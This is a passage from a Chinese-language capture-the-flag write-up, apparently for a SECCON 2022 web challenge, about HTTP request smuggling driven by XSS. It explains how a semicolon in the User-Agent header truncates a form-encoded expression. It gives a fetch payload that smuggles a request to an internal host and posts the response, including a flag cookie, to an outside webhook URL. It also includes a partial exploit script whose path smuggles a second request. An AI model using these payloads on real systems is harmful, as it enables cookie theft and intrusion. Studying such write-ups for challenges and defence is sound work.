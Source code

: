 其中我们构造的post请求的响应截断在了User-Agent中间，首先想到会不会Content-Length太短了，但实际上Content-Length虽然可能确实不够长，但至少不应该截断在这里。

再看一看ua的内容

```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
```

可以发现在截断的部分后面紧跟了一个分号，很明显是分号被当做了urlencoded里的分隔符，然后就把表达式截断了。

如果可以控制所有请求头，这个问题其实不是问题，只要把ua里的分号去掉就好了，但在xss的情景下，ua是没法控制的（fetch设置ua会不生效）

但所幸还有一些header是可以控制的，有分号的header一共有两个，ua和accept language，但accept language是可以控制的，所以只要添加一个header在ua后面，然后在header里设置expr=就可以了。

可以构造fetch

```python
fetch = '''
fetch("http://nginx:3000/%s", {
    headers: {
        'zzz': 'yyy;expr=hello',
        'Accept-Language': '*',
    }
})
.then(res => res.text())
.then(res => {fetch('%s', { method:'POST', body:res })})
''' % (quote(path), webhook)
```

这里似乎新加的header开头比u大就可以排在ua后面，然后要注意调整一下content length，太大会导致body内容不够多请求被阻塞，太小会flag读不全。

然后可以拿到返回

```
42HTTP/1.1 200 OK
Content-Length: 113
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 12:08:56 GMT
Server: CherryPy/18.8.0
Via: waitress

hello
Accept: */*
Referer: http://nginx:3000/
Accept-Encoding: gzip, deflate
Cookie: flag=SECCON{dummydummy}
```

完整exp

```python
from urllib.parse import quote
from base64 import b64encode

path = '''
xxx HTTP/1.1
Host: nginx

POST /api HTTP/1.1
Host: nginx
Content-Type: application/x-www-form-urlencoded
Content-Length: 442

expp=123
'''.strip().replace('\n', '\r\n')

webhook = 'https://webhook.site/d2f445e5-608a-4066-af94-cd00229dbe8d'

```